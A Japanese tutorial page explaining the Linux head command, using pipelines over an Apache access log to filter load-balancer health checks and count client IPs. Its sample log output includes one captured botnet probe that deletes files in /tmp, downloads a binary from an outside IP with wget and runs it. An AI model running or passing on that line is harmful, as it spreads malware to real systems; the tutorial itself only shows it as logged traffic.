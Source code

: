 
## headコマンド詳細説明
headコマンドはファイルの先頭から１０行を表示するコマンドです。

```
$ cat filename | head 
```

よく使われるオプションは、出力する行数を指定するオプション「n」です。

```
$ cat filename | head -n20
```

データをソートしてベスト１０を出力するという場合によく使います。

```
$ sudo cat /var/log/httpd/access_log | grep -iv "ELB-Health-Checker" | awk -F '"' '{ print $1; }' | awk '{ print $2; }' | sort | uniq -c | sort -nr | head
```

sudo で一時的にrootになります。/var/log/ ディレクトリはローカルアカウントではアクセスできないことが多いです。
では、順番に説明していきます。

まずは純粋にアクセスログを出力します。
長いのでheadコマンドを使いましょう。

```
suzuki$ sudo cat /var/log/httpd/access_log | head
172.31.44.102 - - [28/Nov/2021:03:09:13 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
172.31.17.106 - - [28/Nov/2021:03:09:25 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
172.31.44.102 - - [28/Nov/2021:03:09:43 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
172.31.17.106 - - [28/Nov/2021:03:09:55 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
172.31.44.102 - - [28/Nov/2021:03:10:13 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
172.31.17.106 - - [28/Nov/2021:03:10:25 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
172.31.44.102 - - [28/Nov/2021:03:10:43 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
172.31.17.106 - - [28/Nov/2021:03:10:55 +0900] "GET / HTTP/1.1" 302 206 "-" "ELB-HealthChecker/2.0"
117.50.1.250 - - [28/Nov/2021:03:10:58 +0900] "GET http://guba.eastmoney.com/list,hk01500_1.html HTTP/1.1" 302 230 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.154"
117.50.1.250 - - [28/Nov/2021:03:10:58 +0900] "CONNECT guba.eastmoney.com:443 HTTP/1.1" 302 215 "-" "Apache-HttpClient/4.1 (java 1.5)"
:
:
:

```

AWSのロードバランサーからの定期的なポーリングが多いのでgrep -v で除去します。
grepコマンドの -v オプションは「除外する」という意味です。-i オプションは大文字小文字を区別しないという意味です。

```
suzuki$ sudo cat /var/log/httpd/access_log | grep -v "ELB-HealthChecker" | head
 117.50.1.250 - - [28/Nov/2021:03:10:58 +0900] "GET http://guba.eastmoney.com/list,hk01500_1.html HTTP/1.1" 302 230 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.154"
 117.50.1.250 - - [28/Nov/2021:03:10:58 +0900] "CONNECT guba.eastmoney.com:443 HTTP/1.1" 302 215 "-" "Apache-HttpClient/4.1 (java 1.5)"
 117.50.1.250 - - [28/Nov/2021:03:10:59 +0900] "GET http://guba.eastmoney.com/list,hk01500_1.html HTTP/1.1" 302 230 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.154"
 117.50.1.250 - - [28/Nov/2021:03:10:59 +0900] "CONNECT guba.eastmoney.com:443 HTTP/1.1" 302 215 "-" "Apache-HttpClient/4.1 (java 1.5)"
 98.244.147.169 - - [28/Nov/2021:03:13:12 +0900] "GET /shell?cd+/tmp;rm+-rf+*;wget+ 185.245.96.227/bins/arm;chmod+777+/tmp/arm;sh+/tmp/arm+selfrep.jaws" 400 226 "-" "-"
 61.136.101.77 - - [28/Nov/2021:03:15:39 +0900] "GET http://dushu.baidu.com HTTP/1.1" 302 208 "-" "-"
 135.125.246.110 - - [28/Nov/2021:03:17:39 +0900] "POST / HTTP/1.1" 302 205 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"
```